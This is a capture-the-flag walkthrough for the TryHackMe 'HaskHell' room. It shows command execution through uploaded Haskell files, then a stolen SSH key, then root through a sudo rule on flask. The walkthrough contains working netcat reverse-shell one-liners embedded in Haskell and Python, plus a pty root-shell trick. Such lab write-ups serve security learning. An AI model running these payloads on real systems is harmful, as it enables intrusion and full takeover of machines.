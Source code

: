 # HaskHell

https://tryhackme.com/room/haskhell

A simple room, with a few new techs

1. A port scan revealed 22 and 5001. On 5001 was a website asking users to submit their haskell assignments.
2. The link to send haskell files on the homework page didn't work, but a dirb on the ip revealed /submit which did
3. Testing with the following file proved I had RCE (code is from rosetta code [here](https://rosettacode.org/wiki/Execute_a_system_command#Haskell)):

```haskell
import System.Cmd
 
main = system "ls"
```

4. The following connected a reverse shell (as 'flask'):

```haskell
import System.Cmd
 
main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.5.4 4444 >/tmp/f"
```

5. In the /home/prof directory was a .ssh with a readably id_rsa. I extracted this to ssh in as prof.
6. Prof had  `(root) NOPASSWD: /usr/bin/flask run`. After a bit of trial and error around how this command worked, I got a root reverse shell via:

    a. creating a file called shell.py with the following contents:

    ```python
    import os
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.112.79 4444 >/tmp/f")
    ```

    b. calling `export FLASK_APP=shell.py`

    c. running `sudo /usr/bin/flask run`

Easy, but interesting!

**BONUS:** for step six, rather than catching a root reverse shell, changing shell.py to contain `import pty; pty.spawn('/bin/bash')` works as well, spawing an instant root shell.
